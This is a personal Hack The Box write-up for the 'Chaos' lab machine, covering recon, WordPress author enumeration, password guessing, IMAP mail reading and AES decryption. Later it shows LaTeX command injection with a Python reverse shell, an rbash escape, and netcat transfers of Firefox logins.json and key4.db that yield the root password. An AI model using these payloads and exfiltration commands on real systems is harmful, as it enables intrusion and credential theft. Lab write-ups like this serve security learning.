# Chaos

__URL__: https://www.hackthebox.eu/home/machines/profile/167

__Machine IP__: 10.10.10.120

__DATE__ : 20/04/2019

__START TIME__: 9:14 PM

***

`NMAP`
-------



Okay so there are quite a few ports open. I don't even know what are `Dovecot pop3d`.

I tried connecting to all the ports and got errors like `SSL blah blah`, `Direct IP not allowed` etc.
Okay time to read what is `Dovecot pop3d` or `imapd`.

So after reading a bit I came to know that:

| ports             | work|
|-------------------|--------|
| `110` | Runs a pop3 mail server|
| `995` | Runs ssl channel for pop3 mail server|
| `143` | Runs a imap mail server|
| `993` | Runs ssl channel for imap mail server|

Now we know about all the services running. Lets run `dirsearch` to see if we can find any other directory.

***

`Dirsearch`
------------



We can see that there's a wordpress blog(`wp`) and we can see that by visiting `http://10.10.10.120/wp/wordpress/`.

***

Recon
------

Without thinking much I just fired up `wpscan` to see if it can find something interesting there.

```bash
|
 | [!] 9 vulnerabilities identified:
 |
 | [!] Title: WordPress <= 5.0 - Authenticated File Delete
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9169
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20147
 |      - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
 |
 | [!] Title: WordPress <= 5.0 - Authenticated Post Type Bypass
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9170
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20152
 |      - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
 |      - https://blog.ripstech.com/2018/wordpress-post-type-privilege-escalation/
 |
 | [!] Title: WordPress <= 5.0 - PHP Object Injection via Meta Data
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9171
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20148
 |      - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
 |
 | [!] Title: WordPress <= 5.0 - Authenticated Cross-Site Scripting (XSS)
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9172
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20153
 |      - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
 |
 | [!] Title: WordPress <= 5.0 - Cross-Site Scripting (XSS) that could affect plugins
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9173
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20150
 |      - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
 |      - https://github.com/WordPress/WordPress/commit/fb3c6ea0618fcb9a51d4f2c1940e9efcd4a2d460
 |
 | [!] Title: WordPress <= 5.0 - User Activation Screen Search Engine Indexing
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9174
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20151
 |      - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
 |
 | [!] Title: WordPress <= 5.0 - File Upload to XSS on Apache Web Servers
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9175
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20149
 |      - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
 |      - https://github.com/WordPress/WordPress/commit/246a70bdbfac3bd45ff71c7941deef1bb206b19a
 |
 | [!] Title: WordPress 3.7-5.0 (except 4.9.9) - Authenticated Code Execution
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9222
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8942
 |      - https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/
 |
 | [!] Title: WordPress 3.9-5.1 - Comment Cross-Site Scripting (XSS)
 |     Fixed in: 4.9.10
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9230
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9787
 |      - https://github.com/WordPress/WordPress/commit/0292de60ec78c5a44956765189403654fe4d080b
 |      - https://wordpress.org/news/2019/03/wordpress-5-1-1-security-and-maintenance-release/
 |      - https://blog.ripstech.com/2019/wordpress-csrf-to-rce/
```
So 9 vulnerabilities were found by wpscan. Let's try metasploit to see if we can exploit anyone of those or not.

The sad part was I didn't find anything usefull on msfconsole.
So basically `wpscan` part is just a loop hole I guess because after looking for hours for the right exploit and even trying few manually, I got nothing.

Actually I did found something interesting. While I was looking here and there and reading articles to figure out the exploit for wordpress I came to know that wordpress have a loophole which can give us `author name`.
Basically If we add `?author=1` in the wordpress URL we can get the author's name automatically in the URL.

**READ**: https://www.icontrolwp.com/blog/block-username-fishing-using-author-ids-scans-wordpress-security-basics-series-pt-6/

To show you guys this effect I decided to use `HTTPie`



As you can see the `redirection` URL in the `LOCATION`, trying to visit `http://10.10.10.120/wp/wordpress/?author=1` will lead us to `http://10.10.10.120/wp/wordpress/index.php/author/human`

That means the `Author name` is `human`.

For some reason I decided to use `human` as the password and to my luck it actually worked and we can see the credentials for webmail.



***

Reverse Shell
--------------

Now we need to figure out which webmail server to go. oh....one thing to remember is that we won't be able to use telnet for this communication since SSL servers are setup so plaintext won't be exchanged(I learned this while reading about those servers)

First I tried connecting to `port: 993`



But as you can see that I got a `BAD Error`. Trying the same on `port: 995` worked.



**Those `user` and `pass` commands are `Dovecot` command**
**READ**: http://www.linuxplanet.com/linuxplanet/tutorials/7296/1

I found nothing on `pop3` mail server. I thought someone might have messed up the machine and I even tried to reset the machine but even then I couldn't find any email.

After struggling with `dovecot` command I figured out something. We failed to login on port `993` because we were using the wrong commands.

So the difference in command of `pop3` mail server and `imap` mail server is that on `pop3` we can use command like `user`, `pass`, `list`, `retr` etc
But these don't work on `imap` mail server, on that we need like `a LOGIN user pass`, `a list "" *` etc.

Basically `imap` server accepts commands in a query format so we again, connects to `imap` server and this time we'll use the right commands(queries) :smile:



:boom: Boom!! :boom:

We can see that there are `emails` present in the draft, inbox.
Let's get the inbox ones



damn!!....0 exists in inbox. Let's see `drafts`



yay!! :tada: ... 1 exists in the draft.

To read we have to use command called `FETCH`



So basically this email contains two files

1) `enmsg.txt`: a base64 encoded, encrypted message(I tried to decode the b64 got random stuff)

2) `en.py`: a base64 encoded, python code.

Decoding the base64 for `en.py` we get

```python
chunksize = 64*1024
outputFile = "en" + filename
filesize = str(os.path.getsize(filename)).zfill(16)
IV =Random.new().read(16)

encryptor = AES.new(key, AES.MODE_CBC, IV)

with open(filename, 'rb') as infile:
    with open(outputFile, 'wb') as outfile:
        outfile.write(filesize.encode('utf-8'))
        outfile.write(IV)

        while True:
            chunk = infile.read(chunksize)

            if len(chunk) == 0:
                break
            elif len(chunk) % 16 != 0:
                chunk += b' ' * (16 - (len(chunk) % 16))

            outfile.write(encryptor.encrypt(chunk))

def getKey(password):
            hasher = SHA256.new(password.encode('utf-8'))
            return hasher.digest()
```

WTF!!!

Okay let me tell you I've been doing CTFs from quite some time and the type of questions I ignore are `RE/PWN` or `Crypto based on AES`. And here we are with trying to reverse the `AES` code. But Thankfull it's `CBC` mode so trying to reverse this won't be that big mess.

Enough of me crying about AES, let's get to work.

I think I shouldn't have started crying before properly checking out the code. I know this type of code because I've seen pretty similar problem in one of the CTFs.

This code is taken from: https://github.com/bing0o/Python-Scripts/blob/master/crypto.py

and there's the `decryption` method, so basically this `Crypto` problem suddenly changed into `OSINT`(if you don't know where the code was from)

I edited out the unnecessary code and we are left with only the part we need.

```python
#!/usr/bin/python

from Crypto.Cipher import AES
from Crypto.Hash import SHA256
from Crypto import Random


def decrypt(key, filename):
    chunksize = 64 * 1024
    outputFile = "output.txt"

    with open(filename, 'rb') as infile:
        filesize = int(infile.read(16))
        IV = infile.read(16)
        decryptor = AES.new(key, AES.MODE_CBC, IV)

        with open(outputFile, 'wb') as outfile:
            while True:
                chunk = infile.read(chunksize)

                if len(chunk) == 0:
                    break

                outfile.write(decryptor.decrypt(chunk))
            outfile.truncate(filesize)


def getkey(password):
    hasher = SHA256.new(password.encode('utf-8'))
    return hasher.digest()


if __name__ == '__main__':
    filename = "enmsg.txt"
    decrypt(getkey("sahay"), filename)
```

**NOTE**: I have used `sahay` as the password because if you read the email properly it says, `You are the password XD.`(took me sometime to figure this out)

Running the script will give use the output in base64:

```bash
SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK
```

Decode that and we get our magically path :wink:

```bash
➜ echo "SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK" | base64 -d
Hii Sahay

Please check our new service which create pdf

p.s - As you told me to encrypt important msg, i did :)

http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3

Thanks,
Ayush
```

Even though I got the URL, I still couldn't reach the site. After some googling I found out that DNS is messed up and can't resolve the IP. So we need to bind the IP with the qualified domain name.

This can be done by opening `/etc/hosts` and adding a line
```
10.10.10.120    chaos.htb
```

Save it and then try to visit the above URL.



Seeing this kind of form I thought I might have to play with XSS but nope it's completely different and actually very simple.
I googled for a while and found a vulnerability in PDF+latex(http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/). Basically we can execute any command just by putting them in `\intermediate\write18{}`.

So I tried getting reverse shell with this

```
socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.13.198",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```





I've used python because for some reason, simple `nc 10.10.13.198 4444 -e /bin/sh` didn't worked.

***

Own User
---------

Start by spwaning a TTY shell and then remember we already have a `user` and `password` so we can simply switch the user



Now we are `ayush`, we can just go and take away the `user.txt` but nope.
I couldn't run any command like `ls`, `cat` etc



But luckily I've done some jails in CTFs and I know what to try it out. For more you guys can read: https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf - A good guide on bypassing JAILS



This command didn't gave any `rbash` error meaning it worked but for some reason I was not able to use `ls` and `cd` was working(Weird).
Eventually `/bin/ls` worked. Now we can just go to the user directory and own the user.


***

Priv Escalation
---------------

I coudldn't find anything for priv escalation. Then after reading forum comments I found out that I need to look within the user i.e `ayush's` directory for getting `root`.





The only interesting directory was `mozilla` so I just kept on going in till I came across `login.json`. After reading a bit I found out that mozilla keeps password in `login.json` and in `key4.db`.

Reading them on the machine wasn't possible.



We can see it;s in the encrypted form. So now we'll have to get those file to our system so we can just read it.

For this we use `netcat`. All we have to do is send from the `machine` and receive on our end.

On **Machine**
```
/bin/nc -w 3 10.10.12.163 5556 < logins.json
```

On **Your system**
```
nc -l -p 5556 > logins.json
```

And do the same for the `key4.db`

On **Machine**
```
/bin/nc -w 3 10.10.12.163 5556 < key4.db
```

On **Your System**
```
nc -l -p 5556 > key4.db
```


This way we have both the key4.db and login.json. I imported both of those file in a fresh installed firefox(not to mess my existing one) and we can see the password.



Since we've got the `root` password we can again use `su` to change to `root` and get the own root.




__END DATE__: 21/04/2019

__END TIME__: 11:53 AM
